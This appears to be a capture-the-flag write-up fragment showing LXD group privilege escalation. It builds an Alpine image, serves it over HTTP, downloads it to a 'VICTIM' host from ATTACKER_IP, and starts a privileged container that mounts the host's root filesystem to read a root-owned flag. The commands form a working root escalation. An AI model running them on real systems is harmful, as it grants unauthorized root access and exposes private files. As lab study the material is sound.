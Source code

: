 **LOCAL HOST

```
git clone https://github.com/saghul/lxd-alpine-builder

cd lxd-alpine-builder

sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine

sudo ./build-alpine -a i686 
```

- Transfer the file to the target server. 

LOCAL HOST
```
python3 -m http.server
```

VICTIM
```
cd ~
wget http://ATTACKER_IP:8000/alphine_file_with_i686_in_name.tar.gz
```

**VICTIM

```
# import the image

# It's important doing this from YOUR HOME directory on the victim machine, or it might fail.
lxc image import ./alpine*.tar.gz --alias myimage 

# before running the image, start and configure the lxd storage pool as default 
# default [enter] to all of them should do the job ; rename whatever needs renamed if default already exists
lxd init

# run the image
lxc init myimage mycontainer -c security.privileged=true

# mount the /root into the image
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# interact with the container
lxc start mycontainer
lxc exec mycontainer /bin/sh

cd /mnt/root
```

- The last flag is in `root/email_backup/email_2`.

